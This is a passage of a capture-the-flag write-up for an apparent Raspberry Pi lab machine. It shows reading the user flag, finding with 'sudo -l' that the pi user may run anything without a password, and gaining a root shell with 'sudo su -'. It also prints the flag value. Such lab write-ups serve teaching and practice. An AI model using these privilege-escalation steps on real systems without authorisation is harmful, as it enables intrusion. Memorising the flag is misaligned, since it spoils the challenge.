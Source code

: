 ```sh
pi@raspberrypi:~ $ hostname
```

```
raspberrypi
```

## System enumeration

### Flags

If we check the `Desktop` directory in our home folder, we find the user flag.

```sh
pi@raspberrypi:~ $ cat "/home/pi/Desktop/user.txt"
```

```
ff837707441b257a20e32199d7c8838d
```

### Sudo permissions

Let's see if we can execute anything as another user with `sudo`.

```sh
pi@raspberrypi:~ $ sudo -l
```

```
Matching Defaults entries for pi on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User pi may run the following commands on localhost:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: ALL
```

We can run anything as `root`!

## Privilege escalation (Sudo permissions)

### Exploitation

Let's get an elevated shell:

```sh
pi@raspberrypi:~ $ sudo "su" "-"
```

```
root@raspberrypi:~#
```

Yay!
